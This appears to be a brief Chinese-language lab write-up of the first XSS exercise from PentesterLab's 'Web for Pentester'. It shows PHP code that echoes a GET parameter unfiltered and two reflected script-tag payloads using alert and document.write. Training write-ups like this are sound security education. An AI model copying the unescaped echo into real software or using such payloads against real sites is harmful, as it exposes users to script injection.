


# xss1
## 前言
    此环境来源于[web for pentester](https://pentesterlab.com/exercises/web_for_pentester/attachments)

开始做题
example1.php

源码
```php
<?php 
echo $_GET['name'];
?>
```
打印get请求name的参数
没有任何过滤，可以执行任意js代码
payload
```javascript
example1.php?name=<script>alert('hello xss')</script>
example1.php?name=<script>document.write('hello xss')</script>
```



过关:)~